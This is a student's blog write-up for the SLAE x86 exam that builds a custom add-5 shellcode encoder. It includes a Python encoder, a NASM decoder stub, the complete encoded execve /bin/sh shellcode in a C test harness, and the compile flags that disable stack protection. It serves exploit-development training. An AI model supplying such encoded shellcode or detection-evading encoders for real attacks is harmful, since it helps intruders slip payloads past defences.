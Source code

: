 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 4"
categories: certs slae 
---
```



## Assignment #4 - Custom encoder
_Student ID: **PA-7854**_

The assignment indications are as follows:
* Create a custom encoding scheme like the _Insertion encoder_
* Write PoC using execve-stack as shellcode 


The code is available at [my github repo](https://github.com/0xKiewicz/SLAE)
Let's first define how to encode. Since there is no `0x5` in shellcode, we can use it, so we add `0x5` to each byte to encode the shellcode.  

We will need to write a simple Python encoder which gets as input the `execve-stack` program, it simply executes `/bin/sh` by using the stack (instead of jmp-call-pop technique).

#### Encoder
First, we get the formatted shellcode of the `execve-stack` program:
```bash
$ for i in $(objdump -d -M intel execve-stack | grep "^ " | cut -f2); do echo -ne $i','; done
31,c0,50,68,2f,2f,73,68,68,2f,62,69,6e,89,e3,50,89,e2,53,89,e1,b0,0b,cd,80,
```

Now we build the Python decoder
```python
#!/usr/bin/env python
# Simple encoder for the SLAE x86 exam
# Adds 5 to each byte
# @_Kiewicz
shellcode = ("31,c0,50,68,2f,2f,73,68,68,2f,62,69,6e,89,e3,50,89,e2,53,89,e1,b0,0b,cd,80").split(',')

one = ""
two = ""
print('Encoding...')

# Convert to int base 16 
for i in shellcode:
        j = int(i, 16) + 5
	one += '\\x'
	one += '%02x' % j

	two += '0x'
	two += '%02x,' % j


print(one)
print('\n')
print(two)

print('\nLength: %d' % len(shellcode))
```

This is the resulting shellcode:
```bash
$ python encoder.py 
Encoding...
\x36\xc5\x55\x6d\x34\x34\x78\x6d\x6d\x34\x67\x6e\x73\x8e\xe8\x55\x8e\xe7\x58\x8e\xe6\xb5\x10\xd2\x85


0x36,0xc5,0x55,0x6d,0x34,0x34,0x78,0x6d,0x6d,0x34,0x67,0x6e,0x73,0x8e,0xe8,0x55,0x8e,0xe7,0x58,0x8e,0xe6,0xb5,0x10,0xd2,0x85,

Length: 25
```
Moving forward! We need to create the decoder in Assembly, just by reverting the same action, which means to substract by 5 each byte:

```nasm
decoder:
	pop esi			; Save shellcode in ESI	
	xor ecx, ecx		; clear out counter
	mov cl, 0x19		; set counter to shellcode length
	xor ebx, ebx		
	mov bl, 0x5		; decode with 5
	xor eax, eax		

decode:
	mov al, byte [esi]	; point to shellcode
	sub al, bl		; substract 5
	mov byte [esi], al	; overwrite in shellcode
	inc esi			; move forward to next byte
	loop decode		; loop until going through the whole shellcode
	jmp short shellcode 	; execute it

```
We copy the resulting shellcode into `shellcode.c`, compile and run, and we get a shell:

shellcode.c
```c
unsigned char code[] = "\xeb\x16\x5e\x31\xc9\xb1\x19\x31\xdb\xb3\x05\x31\xc0\x8a\x06\x28\xd8\x88\x06\x46\xe2\xf7\xeb\x05\xe8\xe5\xff\xff\xff\x36\xc5\x55\x6d\x34\x34\x78\x6d\x6d\x34\x67\x6e\x73\x8e\xe8\x55\x8e\xe7\x58\x8e\xe6\xb5\x10\xd2\x85";
```

```bash
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  54
sh-4.4$ 

```


Done for today, this was an easy task.
